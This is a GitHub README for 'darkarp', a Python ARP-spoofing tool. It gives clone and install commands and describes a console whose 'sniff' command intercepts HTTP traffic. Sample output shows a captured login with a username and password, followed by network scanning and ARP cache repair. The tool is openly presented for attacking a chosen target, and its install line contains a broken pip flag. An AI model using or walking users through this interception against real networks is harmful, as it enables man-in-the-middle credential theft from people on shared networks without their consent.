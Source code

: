 # About tool
Darkarp is a featured ARP (Address Resolution Protocol) spoofing tool written with Python programming language.
<hr />

# Installation 

clone the repository

```bash
git clone https://github.com/akulife/darkarp.git
```

enter directory called 'darkarp'

```bash
cd darkarp
```
install requirements

```bash
pip install -m requirements.txt
```
print usage 

```bash
python3 darkarp.py
```
<hr />

# Usage


![example code](https://github.com/akulife/darkarp/blob/whoami/img/darkarp.png)

As you can see from the arguments on the output above, for defining the target which is you want to attack, you need to use the -t flag, and gateway address is detecting by darkarp. In darkarp you have a custom command line, wich is you can run darkarp features. Run "*help*" command for listing all commands. 

```
darkarp> help

	system options
                    
	clear - clear the terminal                    
	exit - stop process and exit
                    
	console options
                    
	sniff wlan0 - enable HTTP sniffing on wlan0 interface                                        
	net_scan - scan local network IP addresses
	
darkarp> 
```
<hr>

# Darkarp features

## HTTP sniffing attack

HTTP sniffing attack is performing by giving "**sniff** <i>interface</i>" command.

```bash
darkarp> sniff wlan0
HTTP packet sniffing started... Waiting HTTP requests...
[+] client: 192.168.0.4 server: example.com/ method: GET
[+] client: 192.168.0.4 server: example.com/ method: GET
[+] client: 192.168.0.4 server: example.com/my-account/ method: POST
[/] POST:
Parameters:
b'username=admin&password=suppersecretpasswd'

```

## Network scanning

You can scann local network IP addresses simply by giving "**net_scann**" command.

```bash
darkarp> net_scan
#Available devices in the network:
	IP                  MAC
	192.168.0.1         00:1B:44:11:3A:B7
	192.168.0.4         52:4:t9:00:fA:C1
darkarp> 
```

## Stop process, and fix target's ARP cache

This will stop execution of darkarp and also will fix target's poisoned ARP cache

```
darkarp> exit
[w] Repairing target's ARP cache
[w] Repairing gateways's ARP cache
Terminated
[aku@thug darkarp]$ 
```

<hr>

# Version
version 1.5.0
